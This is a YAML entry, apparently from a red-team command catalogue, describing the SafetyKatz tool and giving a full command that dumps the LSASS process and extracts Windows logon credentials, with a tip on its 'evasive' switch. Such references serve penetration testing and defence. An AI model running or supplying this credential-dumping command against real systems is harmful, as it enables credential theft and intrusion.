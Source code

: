 ```yaml
---
description: |
  SafetyKatz.exe is part of the GhostPack suite of tools and is a combination of SharpDump and Mimikatz. The following command will dump the LSASS process and run Mimikatz to extract credentials from the dumped process. Safetykatz also supports a number of mimikatz native commands such as "sekurlsa::evasive-keys" etc. The evasive switch in lab and production enviroments up to windows 2016 has been noted to successfully run where the non "evasive" switches had not

command: |
  safetykatz.exe "privilege::debug" "sekurlsa::evasive-logonpasswords" "exit"
items:
  - Shell
OS:
  - Windows
attack_types:
  - PrivEsc
  - Enumeration
references:
  - https://github.com/GhostPack/SafetyKatz
  - https://www.harmj0y.net/blog/redteaming/ghostpack/
---
```

